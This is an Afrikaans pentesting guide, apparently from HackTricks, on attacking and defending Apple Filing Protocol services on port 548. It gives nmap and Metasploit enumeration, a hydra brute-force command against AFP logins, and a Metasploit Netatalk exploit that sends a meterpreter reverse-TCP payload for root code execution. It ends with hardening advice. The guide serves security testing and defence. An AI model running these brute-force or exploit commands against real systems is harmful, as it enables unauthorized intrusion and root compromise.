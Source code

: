 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## Basiese Inligting

Die **Apple Filing Protocol** (**AFP**), voorheen bekend as AppleTalk Filing Protocol, is 'n gespesialiseerde netwerkprotokol ingesluit binne **Apple File Service** (**AFS**). Dit is ontwerp om lêerdienste vir macOS en die klassieke Mac OS te bied. AFP val op deur ondersteuning van Unicode-lêernames, POSIX-styl en ACL-toestemmings, hulpbronne-forks, benoemde uitgebreide eienskappe en gesofistikeerde lêer-slotmeganismes.

Alhoewel AFP deur SMB in moderne macOS-uitgawes vervang is (SMB is die verstek sedert OS X 10.9), word dit steeds aangetref in:

* Erflike macOS / Mac OS 9 omgewings
* NAS-toestelle (QNAP, Synology, Western Digital, TrueNAS…) wat die oopbron **Netatalk** daemon inkorporeer
* Gemengde-OS-netwerke waar Time-Machine-over-AFP steeds geaktiveer is

**Verstek TCP Poort:** **548** (AFP oor TCP / DSI)
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## Opname

### Vinning van vinnige banier / bediener inligting
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
Nuttige AFP NSE skripte:

| Skrip | Wat dit doen |
|-------|--------------|
| **afp-ls**            | Lys beskikbare AFP volumes en lêers |
| **afp-brute**         | Wagwoord brute-force teen AFP aanmelding |
| **afp-serverinfo**    | Dump bediener naam, masjien tipe, AFP weergawe, ondersteunde UAMs, ens. |
| **afp-showmount**     | Lys gedeeltes saam met hul ACLs |
| **afp-path-vuln**     | Detecteer (en kan ontgin) gids-deurdring, CVE-2010-0533 |

Die NSE brute-force skrip kan gekombineer word met Hydra/Medusa as meer beheer benodig word:
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### Interacting with shares

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*Linux* (gebruik `afpfs-ng` ‑ ingepak in die meeste distros)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
Sodra dit gemonteer is, onthou dat klassieke Mac hulpbronne-forks as verborge `._*` AppleDouble lêers gestoor word – hierdie hou dikwels interessante metadata wat DFIR gereedskap mis.

---

## Algemene Kw vulnerabilities & Exploitatie

### Netatalk ongeverifieerde RCE-ketting (2022)

Verskeie NAS verskaffers het **Netatalk ≤3.1.12** gestuur. 'n Gebrek aan grensekontrole in `parse_entries()` laat 'n aanvaller toe om 'n kwaadwillige **AppleDouble** kop te vervaardig en **remote root** te verkry voor verifikasie (**CVSS 9.8 – CVE-2022-23121**). 'n Volledige skrywe deur NCC Group met PoC wat Western-Digital PR4100 exploiteer, is beskikbaar.

Metasploit (>= 6.3) verskaf die module `exploit/linux/netatalk/parse_entries` wat die payload via DSI `WRITE` lewer.
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
As die teiken 'n geraakte QNAP/Synology firmware draai, lei suksesvolle uitbuiting tot 'n shell as **root**.

### Netatalk OpenSession heap overflow (2018)

Ou Netatalk (3.0.0 - 3.1.11) is kwesbaar vir 'n out-of-bounds skrywe in die **DSI OpenSession** handler wat nie-geverifieerde kode-uitvoering toelaat (**CVE-2018-1160**). 'n Gedetailleerde ontleding en PoC is deur Tenable Research gepubliseer.

### Ander noemenswaardige probleme

* **CVE-2022-22995** – Symlink herleiding wat lei tot arbitrêre lêer skrywe / RCE wanneer AppleDouble v2 geaktiveer is (3.1.0 - 3.1.17).
* **CVE-2010-0533** – Gids traversering in Apple Mac OS X 10.6 AFP (gedetecteer deur `afp-path-vuln.nse`).
* Meerdere geheue-veilige foute is reggestel in **Netatalk 4.x (2024)** – dit word aanbeveel om op te gradeer eerder as om individuele CVE's te patch.

---

## Verdedigende Aanbevelings

1. **Deaktiveer AFP** tensy dit streng nodig is – gebruik eerder SMB3 of NFS.
2. As AFP moet bly, **opgradeer Netatalk na ≥ 3.1.18 of 4.x**, of pas verskaffer firmware toe wat die 2022/2023/2024 patches terugbring.
3. Handhaaf **Sterk UAMs** (bv. *DHX2*), deaktiveer duidelike teks en gaslogin.
4. Beperk TCP 548 tot vertroude subnetwerke en verpak AFP binne 'n VPN wanneer dit van buite blootgestel word.
5. Periodesk scan met `nmap -p 548 --script afp-*` in CI/CD om rogue / afgedateerde toestelle te vang.

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## Verwysings

* Netatalk Veiligheidsadvies CVE-2022-23121 – "Arbitrêre kode-uitvoering in parse_entries" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "Exploiting an 18-Year-Old Bug (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
